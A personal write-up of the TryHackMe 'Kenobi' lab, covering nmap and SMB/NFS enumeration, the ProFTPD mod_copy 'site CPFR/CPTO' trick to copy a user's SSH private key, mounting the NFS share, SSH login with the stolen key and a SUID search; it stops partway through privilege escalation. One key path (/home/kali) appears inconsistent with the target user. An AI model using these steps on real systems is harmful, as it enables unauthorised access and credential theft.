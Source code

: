 # Kenobi
My own Writeup of machine Kenobi (Tryhackme)

¡¡¡ IMPORTANT !!!
### First of all, connect to your tryhackme vpn.
¡¡¡ IMPORTANT !!!

1. Scan the machine, i use this command to scan open ports in the machine:

````nmap -T5 -p- -n -v <ip>````
  
![Screenshot_1](https://user-images.githubusercontent.com/80575736/111028536-849d6380-83f7-11eb-8356-e13b67d6fe01.png)

With this information we can show a few open ports, for example port 21 (ftp), port 22 (ssh), port 111 (rpcbind) port 445 (smb), port 139 (NetBios) and port 445 (Shared_folders SMB)

In this machine we have to explotate SMB shared folders port (445), and ftp (21)

2. When we have open ports in the machine, we have to try internal nmap scripts to see a few vulnerabilities. We can try with this:

```nmap --script=vuln <ip> ```

For my i try this command and works better for me:

``` nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```

![Screenshot_2](https://user-images.githubusercontent.com/80575736/111028824-87995380-83f9-11eb-881f-44023f30b244.png)

This command show the shared folders of the vulnerable machine, and we can watch a share with name "anonymous".

3. Connect with smbclient to see what there is in.

``` smbclient //<ip>/shared_folder```

![Screenshot_3](https://user-images.githubusercontent.com/80575736/111029377-b533cc00-83fc-11eb-8e64-8c7367b52469.png)

To show subfolders and files, we can use command ```ls``` like in linux terminal.

![Screenshot_16](https://user-images.githubusercontent.com/80575736/111029450-ef04d280-83fc-11eb-8ffb-360bad8ad4dd.png)

We see a  intersting file name log.txt

4. Copy the previous file (log.txt) in our machine.

```smbget -R smb://<ip>/shared_folder```
This command copy all folders and files recursively.

![Screenshot_4](https://user-images.githubusercontent.com/80575736/111029700-55d6bb80-83fe-11eb-90cc-44e8729870bc.png)

When we read file log.txt, we can appreciate:
- Information generated for Kenobi when generating an SSH key for the user
- Information about the ProFTPD server.

5. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>```

![Screenshot_5](https://user-images.githubusercontent.com/80575736/111030205-4e64e180-8401-11eb-85a2-7e27491d9d16.png)

This command provide us folder of file systems mounted by clients. in our case /var 

6. We go to search a exploit of the ftp server of the vulnerable machine "proftpd".

``` searchsploit proftpd 1.3.5```

![Screenshot_6](https://user-images.githubusercontent.com/80575736/111030486-cb448b00-8402-11eb-8d99-e29502e59f14.png)

We execute the previous command, and its show three exploits of service "proftpd"


7. Go to connect to ftp server via netcat with this command:

``` nc <ip> <port> ```

![Screenshot_7](https://user-images.githubusercontent.com/80575736/111030610-8a00ab00-8403-11eb-9848-c6991de16fb9.png)

Now we are inside ftp server, and we have to use this command to copy id_rsa to before connect via ssh to gain access with the user Kenobi.

```site CPFR /home/kali/.ssh/id_rsa ```

``` site CPTO /var/tmp/id_rsa```

![Screenshot_8](https://user-images.githubusercontent.com/80575736/111030943-54f55800-8405-11eb-9bd9-4099600dcf03.png)

8. Lets mount the /var/tmp directory to our machine, to be able to copy id_rsa in our machine. (We )

```sudo mkdir /mnt/kenobiNFS```

```sudo mount <ip>:/var /mnt/kenobiNFS```


![Screenshot_9](https://user-images.githubusercontent.com/80575736/111031122-3f346280-8406-11eb-8959-65e2b80a2ffc.png)
![Screenshot_10](https://user-images.githubusercontent.com/80575736/111031123-4196bc80-8406-11eb-8578-14015cbf7143.png)

We can check the mount with this command:

```ls -la /mnt/kenobiNFS```

![Screenshot_11](https://user-images.githubusercontent.com/80575736/111031169-668b2f80-8406-11eb-88d2-f7811e5ab8d9.png)

9. We have to copy id_rsa to our machine, next assign owner read, write permissions to id_rsa, and connect via ssh to victim machine.

```cp /mnt/kenobiNFS/tmp/id_rsa .```

```sudo chmod 600 id_rsa```

```ssh -i id_rsa kenobi@<ip>```

![Screenshot_12](https://user-images.githubusercontent.com/80575736/111031404-c0d8c000-8407-11eb-8b56-2748574d03a5.png)


10. To escalate privileges, we have to find SUID binaries, we can use this command to find them.

``` find / -perm /4000 2>/dev/null ```

![Screenshot_19](https://user-images.githubusercontent.com/80575736/111031834-d0590880-8409-11eb-94cb-189f078ca9d1.png)

We can see a strange binary called "menu", with the path /usr/bin/menu, we can run and see what it does.
With this command ```strings``` can looks for human readable strings on a binary.

![image](https://user-images.githubusercontent.com/80575736/111032041-cbe11f80-840a-11eb-8222-e2183e1e3dd1.png)





